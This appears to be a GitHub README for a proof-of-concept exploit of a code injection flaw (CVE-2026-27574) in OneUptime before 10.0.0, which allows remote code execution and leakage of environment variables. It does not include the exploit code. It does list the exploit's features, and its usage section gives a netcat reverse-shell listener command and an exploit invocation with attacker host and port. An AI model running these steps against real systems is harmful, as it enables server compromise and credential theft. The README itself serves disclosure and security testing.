

# CVE-2026-27574-OneUptime-RCE


</div>

## Overview

Proof-of-Concept exploit for **CVE-2026-27574** – a critical code injection vulnerability (CWE-94) in **OneUptime < 10.0.0** allowing arbitrary JavaScript execution in the probe context, leading to full **remote code execution (RCE)** and leakage of sensitive environment variables.

**Fixed in:** OneUptime 10.0.0 (migration to `isolated-vm`)

**Exploit type:** Remote  
**Authentication:** Low-privilege (any registered project member)  
**Impact:** Full server compromise, credential theft, cluster takeover

## Attack Flow Diagram



## Features of This PoC

- Automatic account registration
- Project creation
- Malicious JavaScript monitor creation
- Environment variable leakage
- Basic command execution proof
- Optional reverse shell payload (commented)

## Usage

```bash
# Start listener (if using reverse shell)
nc -lvnp 4444

# Run the exploit
python3 exploit.py http://target:3002 --lhost YOUR_IP --lport 4444
```

## Requirements

- Python 3.6+
- `requests` library (`pip install requests`)

## Legal & Ethical Notice

**This code is provided for educational and authorized security testing purposes only.**  
Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

## References

- [GitHub Advisory GHSA-v264-xqh4-9xmm](https://github.com/OneUptime/oneuptime/security/advisories/GHSA-v264-xqh4-9xmm)
- [Patch Commit](https://github.com/OneUptime/oneuptime/commit/7f9ed4d43945574702a26b7c206e38cc344fe427)

---

<p align="center">
  <i>Developed by Mohammed Idrees Banyamer • Jordan • @banyamer_security</i>
</p>
